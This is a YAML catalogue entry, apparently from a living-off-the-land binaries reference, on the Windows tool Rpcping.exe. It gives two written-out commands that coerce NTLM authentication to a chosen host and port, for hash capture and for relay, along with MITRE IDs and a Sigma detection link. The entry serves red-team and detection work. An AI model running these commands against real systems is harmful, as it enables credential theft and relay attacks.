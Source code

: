 ```yaml
---
Name: Rpcping.exe
Description: Used to verify rpc connection
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
    Usecase: Capture credentials on a non-standard port
    Category: Credentials
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rpcping /s 10.0.0.35 /e 9997 /a connect /u NTLM
    Description: Trigger an authenticated RPC call to the target server (/s) that could be relayed to a privileged resource (Sign not Set).
    Usecase: Relay a NTLM authentication over RPC (ncacn_ip_tcp) on a custom port
    Category: Credentials
    Privileges: User
    MitreID: T1187
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\rpcping.exe
  - Path: C:\Windows\SysWOW64\rpcping.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_rpcping_credential_capture.yml
Resources:
  - Link: https://github.com/vysec/RedTips
  - Link: https://twitter.com/vysecurity/status/974806438316072960
  - Link: https://twitter.com/vysecurity/status/873181705024266241
  - Link: https://twitter.com/splinter_code/status/1421144623678988298
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Vincent Yiu
    Handle: '@vysecurity'
  - Person: Antonio Cocomazzi
    Handle: '@splinter_code'
  - Person: ap
    Handle: '@decoder_it'
---
```

